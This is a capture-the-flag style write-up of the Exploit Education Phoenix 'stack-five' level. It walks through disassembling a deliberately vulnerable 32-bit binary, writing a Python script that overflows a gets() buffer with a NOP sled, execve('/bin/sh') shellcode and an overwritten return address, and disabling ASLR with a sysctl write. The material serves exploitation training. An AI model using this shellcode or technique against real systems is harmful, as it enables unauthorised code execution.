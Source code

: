 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Five"
date: "2019-10-14 22:45:00 +0300"
categories: exploit-education phoenix x86
---
```


{% highlight shell %}
rabin2 -I /opt/phoenix/i486/stack-five 
arch     x86
baddr    0x8048000
binsz    3249
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As can be seen, the same information about the binary as in the previous levels is presented here as well.

To disassemble the binary, `radare2` comes in handy.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-five
{% endhighlight %}

{% highlight nasm %}
[0x080482f0]> aas
Cannot analyze at 0x08048520
[0x080482f0]> afl
0x08048294    1 17           sym._init
0x08048440    7 277  -> 112  sym.frame_dummy
0x080484e0    5 49           sym.__do_global_ctors_aux
0x08048511    1 12           sym._fini
0x080483c0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   41 476  -> 554  sym..interp
0x080482f0    1 62           entry0
0x080482e0    1 6            sym.imp.__libc_start_main
0x0804856c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048590    3 34           sym..eh_frame
0x080485cc    1 41           obj.__EH_FRAME_BEGIN
0x08048330    4 49   -> 40   sym.deregister_tm_clones
0x08048618    1 4            obj.__FRAME_END
0x08048485    1 30           sym.start_level
0x080482c0    1 6            sym.imp.gets
0x080484a3    1 51           main
0x080482d0    1 6            sym.imp.puts
[0x080482f0]> s main
[0x080484a3]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048324
|           0x080484a3      8d4c2404       lea ecx, [arg_4h]
|           0x080484a7      83e4f0         and esp, 0xfffffff0
|           0x080484aa      ff71fc         push dword [ecx - 4]
|           0x080484ad      55             push ebp
|           0x080484ae      89e5           mov ebp, esp
|           0x080484b0      51             push ecx
|           0x080484b1      83ec04         sub esp, 4
|           0x080484b4      83ec0c         sub esp, 0xc
|           0x080484b7      6820850408     push str.Welcome_to_phoenix_stack_five__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048520 ; "Welcome to phoenix/stack-five, brought to you by https://exploit.education"
|           0x080484bc      e80ffeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484c1      83c410         add esp, 0x10
|           0x080484c4      e8bcffffff     call sym.start_level
|           0x080484c9      b800000000     mov eax, 0
|           0x080484ce      8b4dfc         mov ecx, dword [var_4h]
|           0x080484d1      c9             leave
|           0x080484d2      8d61fc         lea esp, [ecx - 4]
\           0x080484d5      c3             ret
[0x080484a3]> s sym.start_level
[0x08048485]> pdf
/ (fcn) sym.start_level 30
|   sym.start_level ();
|           ; var int32_t var_88h @ ebp-0x88
|           ; CALL XREF from main @ 0x80484c4
|           0x08048485      55             push ebp
|           0x08048486      89e5           mov ebp, esp
|           0x08048488      81ec88000000   sub esp, 0x88
|           0x0804848e      83ec0c         sub esp, 0xc
|           0x08048491      8d8578ffffff   lea eax, [var_88h]
|           0x08048497      50             push eax
|           0x08048498      e823feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0804849d      83c410         add esp, 0x10
|           0x080484a0      90             nop
|           0x080484a1      c9             leave
\           0x080484a2      c3             ret
{% endhighlight %}

The infamous `gets` call is once again used. This level is all about shellcoding and that's why the buffer has a size of 136 bytes.

The way of shellcoding is pretty simple. The contents of the payload are listed below:
1. NOP sled, so that there is some flexibility as to what the value of the return address should be.
1. Shellcode, considering that this is our objective.
1. NOP padding.
1. Return address.

Something noteworthy is that in the case of using the deb package, instead of the virtual machines, ASLR needs to be disabled manually.

{% highlight shell %}
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

To overwrite the return address, the input needs to have 136 bytes to fill the buffer, 4 more bytes to override the previous stack frames pointer and, lastly, 4 more bytes to overwrite the return address.

{% highlight python %}
#!/usr/bin/env python3
import os

nop_sled = b'\x4e'*80
shellcode = b'\x53'*35
nop_padding = b'\x50'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x52'*4

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
$ r2 -d /opt/phoenix/i486/stack-five -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7fc5d4b]> aas
Cannot analyze at 0x08048520
[0xf7fc5d4b]> db 0x08048498
[0xf7fc5d4b]> dc
Welcome to phoenix/stack-five, brought to you by https://exploit.education
hit breakpoint at: 8048498
[0x08048498]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xffffd340
edx = 0x00000000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd360
ebp = 0xffffd3f8
eip = 0x08048498
eflags = 0x00000292
oeax = 0xffffffff
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0xf7ffb1e0 0xffffd3bf 0x00000001 0x00000000  ................
0xffffd380  0x00b0bc7e 0x00000001 0x00960026 0x00000000  ~.......&.......
0xffffd390  0x0000000a 0xf7ffb1e0 0x00000000 0xf7fb5ab8  .............Z..
0xffffd3a0  0xf7ffb1e0 0xffffd3bf 0x00000001 0x0000000a  ................
0xffffd3b0  0x08048520 0x08048511 0x00000000 0x0afb7038   ...........8p..
0xffffd3c0  0xf7fb5a5b 0xf7ffb000 0xf7ffb1e0 0xf7fb8958  [Z..........X...
0xffffd3d0  0xf7ffb1e0 0x0000000a 0x00000000 0x00000000  ................
0xffffd3e0  0xf7ffb000 0xffffd494 0x00000001 0x080484c1  ................
0xffffd3f0  0x08048520 0x00000000 0xffffd408 0x080484c9   ...............
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x080484c9                                   ....
[0x08048498]> dso
hit breakpoint at: 804849d
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd380  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd390  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3a0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3b0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3c0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3d0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3e0  0x50535353 0x50505050 0x50505050 0x50505050  SSSPPPPPPPPPPPPP
0xffffd3f0  0x50505050 0x50505050 0x50505050 0x52525252  PPPPPPPPPPPPRRRR
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x52525252                                   RRRR
[0x08048498]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x52525252 code=1 ret=0
[0x52525252]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd400
ebp = 0x50505050
eip = 0x52525252
eflags = 0x00010282
oeax = 0xffffffff
{% endhighlight %}

Now, it is pretty easy to modify the script so that some shellcode will be executed.

{% highlight python %}
#!/usr/bin/env python3
import os

nop_sled = b'\x90'*80
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
nop_padding = b'\x90'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x90\xd3\xff\xff'

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
{% endhighlight %}

{% highlight shell %}
$ cat pattern - | /opt/phoenix/i486/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
test
{% endhighlight %}

## Conclusion
This level introduced a simple shellcoding challenge that was possible thanks to a call to `gets`, which does not restrict the size of bytes to be read, and also a buffer that had a size big enough to contain the shellcode.